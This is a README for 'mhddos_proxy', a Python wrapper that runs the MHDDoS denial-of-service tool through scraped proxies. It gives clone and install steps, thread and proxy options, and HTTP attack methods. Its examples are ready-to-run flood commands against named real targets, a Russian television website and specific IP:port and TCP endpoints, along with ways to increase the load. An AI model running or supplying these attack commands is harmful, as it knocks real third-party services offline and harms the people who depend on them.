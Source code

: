 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] 
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout PROXY_TIMEOUT]
                     [--rpc RPC] 
                     [--skip-proxy-init]
                     targets [targets ...]

    positional arguments:
      targets                List of targets, separated by spaces
    
    optional arguments:
      -h, --help             show this help message and exit
      -t 100                 Number of threads per CPU core (default is 100)
      -p 300                 How often to update the proxies (default is 300)
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 3)

      --rpc 100              How many requests to send on a single proxy connection (default is 100)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             Default is GET, STRESS, BOT, DOWNLOADER.
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

# TODO

- [ ] UDP support - need MHDDoS to support SOCKS5 proxies for UDP
- [ ] Docker image
